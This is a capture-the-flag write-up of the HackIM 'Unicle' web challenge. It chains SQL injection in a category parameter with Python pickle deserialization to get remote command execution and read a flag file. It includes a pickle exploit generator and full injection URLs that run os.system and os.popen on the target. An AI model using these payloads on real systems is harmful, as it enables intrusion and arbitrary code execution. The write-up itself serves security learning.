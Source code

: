 # Unicle (Web, 200pts)

## Problem

OSaaS is the new trend for 2016! Store your object directly in the cloud. Get rid of the hassle of managing your own storage for object with Osaas. Unickle currently offers a beta version that demonstrates how OSaaS will make the internet a better place... One object at a time!!

http://54.84.124.93/

![Unicle application]
(unicle01.png)

## Solution

After opening url, there's a simple HTML table with all stroed objects. There's only one parameter I could manipulate - Category id (cat).

### Phase one - SQL Injection

Quick research revealed that 'cat' parameter is vulnerable to SQL Injection. Valid payload contains standard characters used in attacks based on SQLi (like +, /**/ and so on).

First payload I've used and was fine, looks like this one (I used four columns in _union_ statement, because table had four columns):

```bash
http://54.84.124.93/?cat=2%2b1+and+1=1+union+select+1,2,3,4/**/
```

After some attempts to read eg. MySQL version via _version()_ I've realized that this is not MySQL database and one of the payload returned such result in the browser:

```bash
http://54.84.124.93/?cat=2+union+select+1,2,%22aaa%22,4/**/
```

![SQLi]
(unicle02.png)

That was something new for me, so I've tried some other payloads:

```bash
http://54.84.124.93/?cat=2+union+select+1,2,%22Magic%20Box%22,4/**/
```

and the result in first row in column Value was: "could not find MARK", also this payload:

```bash
http://54.84.124.93/?cat=2+union+select+1,2,%22{aa,bb}%22,4/**/
```

returned in the same place error message "invalid load key, '{'."

Quick session with Google told me that such error messages points I'm playing with Pickle Python module, which is used to serialization and deserialization of Python objects (https://docs.python.org/3.4/library/pickle.html). After two or free blog posts (linked at the end of this writeup) I had, more or less, some idea how can I use this vector to get the flag.


### Phase two - Remote Code Execution via Pickle module

As I've assumed that third column contains serialized Python object, which is deserialized on the backend side, I've started to create and inject simple exploits to get some valuable response.


I've used for this simple Pickle exploit generator (from Nelson Elhage's - https://twitter.com/nelhage - blog post linked below):

```python
#!/usr/bin/python
import os
import cPickle
import base64

# Exploit that we want the target to unpickle
class Exploit(object):
    def __reduce__(self):
        return (eval, ("os.system('ls -l')",))

shellcode = cPickle.dumps(Exploit())
print shellcode
```

Returned exploit looks like this:

```bash
$ ./cpicke_exploit.py 
c__builtin__
eval
p1
(S"os.system('ls -l')"
p2
tp3
Rp4
.

```

To get this exploit working in injection payload, I had to use %0A as a separator between every line of above output (to be sure that Pickle deserializes this in right way).

Here's an example how to get result of _ls -l_ command:

```bash
http://54.84.124.93/?cat=1+and+1=2+union+select+1,2,%22c__builtin__%0Aeval%0A%28S%27os.listdir%28%27var/www%27%29%27%0AtR.%22,4/**/
```

And a result in Burp Repeater:

![ls -l result]
(unicle04.png)


So there's a _flag_ file directly in _/var/www_ directory, so let's get it!


```bash

http://54.84.124.93/?cat=1+and+1=2+union+select+1,2,%22c__builtin__%0Aeval%0A%28S%27os.popen%28%27cat%20/var/www/flag%27%29.readlines%28%29%27%0AtR.%22,4/**/
```

And the flag is:
**flag{OSaaS_with_union_and_tickle_trend_it_is!}**

![flag]
(unicle_flag.png)

## Summary

I'v spent a lot of time on this task, because I had no experience with web application based on used stack - as you can see _vulnerable.py_file (which I saved just by curiosity, how the code looks like) - there's a **Flask** Python framework and **SQLAlchemy** simple ORM for Flask. Also I've never exploit Pickle code injection vulnerability in the wild before - so I've learnt a lot during HackIM CTF and this task. 

## Links

Exploiting Misuse of Python's "Pickle"
https://blog.nelhage.com/2011/03/exploiting-pickle/

Playing with Pickle Security    
https://lincolnloop.com/blog/playing-pickle-security/

Flask			
http://flask.pocoo.org/

SQLAlchemy		
http://flask-sqlalchemy.pocoo.org/2.1/